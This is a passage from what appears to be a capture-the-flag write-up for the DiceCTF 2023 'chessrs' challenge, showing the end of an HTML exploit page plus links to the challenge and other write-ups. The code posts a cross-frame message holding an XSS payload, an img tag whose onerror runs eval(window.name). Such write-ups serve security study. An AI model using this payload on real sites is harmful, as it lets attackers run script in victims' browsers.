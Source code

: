 ```html
                    window.frames[0].postMessage({
                        id: leak,
                        type: "error",
                        data: `<img src=x onerror=eval(window.name) />`
                    }, "*");
                    return;
                }
            }
        </script>
    </body>
</html>
```

## Ref

- https://github.com/dicegang/dicectf-2023-challenges/tree/main/pwn/chessrs
- https://rgwv.team/writeups/1838/chessrs/
- https://brycec.me/posts/dicectf_2023_challenges#chessrs
- https://w0y.at/writeup/2023/02/05/dicectf-2023-chessrs.html
